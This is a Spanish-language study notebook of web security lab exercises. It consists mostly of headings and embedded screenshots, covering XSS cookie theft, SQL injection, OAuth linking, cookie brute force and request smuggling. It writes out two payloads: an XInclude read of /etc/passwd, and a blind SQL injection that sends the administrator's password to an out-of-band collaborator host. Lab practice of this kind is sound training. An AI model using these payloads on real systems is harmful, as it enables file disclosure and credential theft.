 # Explotación de secuencias de comandos entre sitios para robar cookies

![[Pasted image 20240710163538.png]]
![[Pasted image 20240710163639.png]]
![[Pasted image 20240710163715.png]]
![[Pasted image 20240710163815.png]]

# Descubrimiento rápido de vulnerabilidades mediante escaneo dirigido

![[01.Escaneo_Dirigido.png]]

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd/"/></foo>
```

![[02.Escaneo_Dirigido.png]]
![[03.Escaneo_Dirigido.png]]

# Inyección SQL con omisión de filtros mediante codificación XML

![[01.OmisionFiltroXML.png]]
![[02.OmisionFiltroXML.png]]
![[03.OmisionFiltroXML.png]]
![[04.OmisionFiltroXML.png]]
![[05.OmisionFiltroXML.png]]

# Inyección SQL ciega con exfiltración de datos fuera de banda

![[01.InyeccionSQLCiega.png]]
```
`TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`
```
![[02.InyeccionSQLCiega.png]]
![[03.InyeccionSQLCiega.png]]

# Vinculación forzada de perfiles OAuth


![[Pasted image 20240712112250.png]]
![[Pasted image 20240712112551.png]]
![[Pasted image 20240712112645.png]]
![[Pasted image 20240712113411.png]]
![[Pasted image 20240712113730.png]]
![[Pasted image 20240712113332.png]]
![[Pasted image 20240712113801.png]]


# Forzar bruscamente una cookie que impide permanecer conectado

![[01.AutenticacionCookieForzada.png]]
![[02.AutenticacionCookieForzada.png]]
![[03.AutenticacionCookieForzada.png]]
![[04.AutenticacionCookieForzada.png]]
![[05.AutenticacionCookieForzada.png]]
![[06.AutenticacionCookieForzada.png]]
![[07.AutenticacionCookieForzada.png]]
![[08.AutenticacionCookieForzada.png]]

# Explotación del contrabando de solicitudes HTTP para capturar las solicitudes de otros usuarios

